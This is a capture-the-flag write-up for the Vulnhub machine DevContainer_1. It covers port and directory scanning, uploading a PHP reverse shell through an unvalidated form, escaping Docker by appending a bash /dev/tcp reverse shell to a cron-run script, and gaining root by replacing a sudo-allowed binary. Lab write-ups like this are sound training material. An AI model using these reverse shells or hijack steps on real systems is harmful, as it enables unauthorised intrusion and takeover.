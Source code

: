 ```yaml
---
title: DevContainer_1 Writeup
tags: [Docker, Vulnhub]
image: /assets/images/devcontainer_1/devcontainer_1.png
published: true
---
```


DevContainer_1 is an easy machine created by [@0x04E1](https://twitter.com/0x04E1), on this machine we will find a page with a upload function where we will upload a PHP reverse shell, then we we will find us on a Docker container rather than the machine itself, after checking the files we will find a file that is being run every x seconds, we will add a reverse shell to it in order to get a shell on the machine, finaly we will see that we can execute a file without supplying a password, we will see that we have permissions over the directory where that file is located, so we can move it and create a reverse shell on the path of the original file and get root.

# [](#header-1)Enumeration

We start use nmap find the open ports and then make a deeper scan on those ports.

```
nmap -p- -Pn -n -T 4 192.168.56.129
nmap -sC -sV -p 80, -Pn -o scan.txt 192.168.56.129

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Freelancer - Start Bootstrap Theme
```

There is only port 80 open, so we check the website.

![](assets/images/devcontainer_1/Website.png)

Using gobuster we find some directories. `gobuster dir -u http://192.168.56.129/ -w /usr/share/wordlist/dirb/common.txt -t 50 -x txt,html,php -o busterc.txt`

![](assets/images/devcontainer_1/gobuster.png)

# [](#header-1)Gaining Access

The most interesting directory is "upload" so we enter to it.

![](assets/images/devcontainer_1/upload.png)

There says that there is a couple of allowed files, but they might not be validated so we try to upload [pentestmonkey's php reverse shell](https://github.com/pentestmonkey/php-reverse-shell). It gets upload with no problem.

![](assets/images/devcontainer_1/uploaded.png)

We configured the file to connect to us on port 54231, so we start a listener with `nc -lvp 54321` and when we open the file we get a shell.

![](assets/images/devcontainer_1/shell1.png)

# [](#header-1)Escaping from Docker

After enumating for a while we find that we are not inside the machine itself, but in a Docker container, if we go to check the source code of the website we find a directory named "Maintenan-Web-Docker".

![](assets/images/devcontainer_1/websource.png)

Inside of it we find 3 files, "maintenance.sh", "list.sh" and "out.txt". The code of maintenance.sh is:

```bash
#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh
```

And list.sh:

```bash
#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

We see that maintenance.sh calls list.sh, and list.sh writes some info in out.txt, but we see something interesting, the path of the files are "/home/richard/web/Maintenance-Web-Docker/", but we are in "/var/www/html/Maintenance-Web-Docker/", so the machine must be doing volume mapping, we can guess that the container was started with `docker run -p 80:80 -v /home/richard/web/Maintenance-Web-Docker/:/var/www/html/Maintenance-Web-Docker/ <image name>`. That means that if we write in "/var/www/html/Maintenance-Web-Docker/" we will be writing inside the machine, the next important thing is "out.txt", if we check it, we see that it has some lines written, and they were written with today's date.

![](assets/images/devcontainer_1/outfile.png)

Probably there is a crontab running that executes maintenance.sh or list.sh every x time, so we move out.txt and after some time it gets created again so we know that those are being run.

![](assets/images/devcontainer_1/outagain.png)

Everything we have to do is add a reverse shell to list.sh, I like to use [one-lin3r](https://github.com/D4Vinci/One-Lin3r) to generate reverse shell one liners.

![](assets/images/devcontainer_1/onelin3r.png)

So we execute `echo ‘bash -i >& /dev/tcp/192.168.56.130/54322 0>&1’ >> list.sh` to append our reverse shell to list.sh, we check that is has been edited.

![](assets/images/devcontainer_1/newlist.png)

As before we had a listener waiting with: `nc -lvp 54322`, and after some seconds we will have our shell.

![](assets/images/devcontainer_1/shell2.png)

We can read user.txt.

![](assets/images/devcontainer_1/usertxt.png)

# [](#header-1)Privilege Escalation

We check if we can execute any command with sudo using `sudo -l`, and we get that we can execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` without supplying a password.

![](assets/images/devcontainer_1/sudotest.png)

As the path of the command indicates the file is inside our home directory.

![](assets/images/devcontainer_1/homefiles.png)

Since it is inside our home directory we can rename the directory with `mv HackTools btools`, now we create the directory "HackTools" again, and we create the file socat inside of it with a revese shell, finally we execute `sudo /home/richard/HackTools/socat TCP-LISTEN:8080,fork TCP:127.0.0.1:90` and we will get our root shell and retrieve "proof.txt".

![](assets/images/devcontainer_1/proof.png)

